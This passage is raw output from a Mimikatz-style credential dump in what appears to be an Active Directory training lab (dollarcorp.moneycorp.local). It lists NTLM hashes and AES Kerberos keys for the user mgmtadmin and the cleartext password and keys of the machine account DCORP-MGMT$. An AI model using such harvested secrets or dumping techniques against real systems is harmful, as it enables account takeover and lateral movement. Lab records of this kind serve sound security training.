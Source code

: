 ```powershell
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6218420 (00000000:005ee2b4)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:24:18 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 21275 (00000000:0000531b)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-0

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754
Authentication Id : 0 ; 21242 (00000000:000052fa)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

```